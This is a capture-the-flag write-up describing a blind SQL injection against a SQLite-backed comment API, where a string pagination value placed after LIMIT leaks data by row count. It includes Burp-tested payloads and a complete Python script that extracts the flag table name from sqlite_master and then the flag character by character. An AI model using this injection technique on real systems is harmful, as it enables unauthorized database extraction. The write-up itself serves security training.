 Unfortunately, the submissionID is an integer, but the pagination is a string, thus allowing us to try some sql injections. Note that sqlite is being used.
We are able to introduce our payload only after the LIMIT, thus not allowing us to use UNION.
By trying to send **"(select 15)"** as pagination using burpsuite, we can see that it actually works.
Sending **"(select unicode('a'))"** works again.
The idea is then to push many comments in the database, then, using the special sqlite table **sqlite_master**, find the name of the table containing the flag, character per character.
If we take each character and provide to the LIMIT function the unicode value of said character, we can count the number of data received to obtain that specific unicode value, thus obtaining the character.

Once we get the name of the table, we can use the same trick once again to obtain the characters of the flag itself.

This can be easily done with a python script:

```python
import requests 

basename = "http://94.237.59.24:41458/api/comment/submit"

#preparing comment list
for i in range(0,256):
	response = requests.post(basename, json={"submissionID":11,"commentContent":"get_pwned"})
	
#exfiltrating the table's name, flag_XXXXXXXX
basename = "http://94.237.59.24:41458/api/comment/entries"
base = 6
table_name = "flag_"
for i in range(0,8):
	params = {"submissionID":11,"pagination":"(select unicode(substr(tbl_name," + str(base + i) + ",1)) from sqlite_master WHERE tbl_name LIKE 'flag%' LIMIT 1)"}
	response = requests.post(basename, json=params)
	table_name = table_name + chr(response.text.count("content"))
	
print(table_name)

#Exfiltrating the flag using the same trick as before!
flag = ""
for i in range(0,255):
	params = {"submissionID":11,"pagination":"(select unicode(substr(flag," + str(i) + ",1)) from " + table_name + " WHERE flag LIKE 'H%' LIMIT 1)"}
	response = requests.post(basename, json=params)
	flag = flag + chr(response.text.count("content"))
	print("*** Character exfiltrated: " + chr(response.text.count("content")))
	if chr(response.text.count("content")) == "}":
		break
	
print(flag)
```
